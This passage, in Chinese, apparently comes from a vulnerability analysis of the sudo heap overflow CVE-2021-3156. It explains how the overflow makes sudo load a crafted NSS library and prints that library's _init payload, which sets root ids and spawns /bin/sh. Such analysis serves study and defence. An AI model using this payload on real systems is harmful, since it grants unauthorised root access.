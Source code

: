 将离 user_args最近的 service_user结构体覆盖后，程序会调用 getgrgid()函数，最后去调用 nss_load_library。

```
//sudoers.so
.text:0000000000034720 loc_34720:                              ; CODE XREF: sub_344D0+3E↑j
.text:0000000000034720                 mov     edi, ebx        ; gid
.text:0000000000034722                 call    _getgrgid       ; 10
.text:0000000000034727                 mov     rbx, rax
.text:000000000003472A                 jmp     loc_3451F
```

在 nssload_libray中，构造了满足调用新动态链接库的条件，所以会通过 ni-&gt;name构造动态链接库的名字 shlib_name为 libnss_X/POP_SH3LLZ .so.2。最终会通过 __libc_dlopen(shlib_name)打开。

[![](https://p2.ssl.qhimg.com/t01e967c0b3a8564eed.png)](https://p2.ssl.qhimg.com/t01e967c0b3a8564eed.png)

而 libnss**X/POP_SH3LLZ** .so.2中只含有一个 init函数，该函数的作用就是id(0)调用 execv(‘/bin/sh’)，自此完成了提权。

```
static void _init(void) `{`
    printf("[+] bl1ng bl1ng! We got it!\n");
    setuid(0); seteuid(0); setgid(0); setegid(0);
    static char *a_argv[] = `{` "sh", NULL `}`;
    static char *a_envp[] = `{` "PATH=/bin:/usr/bin:/sbin", NULL `}`;
    execv("/bin/sh", a_argv);
`}`
```



## 参考文献

[https://www.jianshu.com/p/18f36f1342b3](https://www.jianshu.com/p/18f36f1342b3)

[https://bbs.pediy.com/thread-265669.htm](https://bbs.pediy.com/thread-265669.htm)

[https://github.com/blasty/CVE-2021-3156/blob/main/hax.c](https://github.com/blasty/CVE-2021-3156/blob/main/hax.c)

[https://www.openwall.com/lists/oss-security/2021/01/26/3](https://www.openwall.com/lists/oss-security/2021/01/26/3)
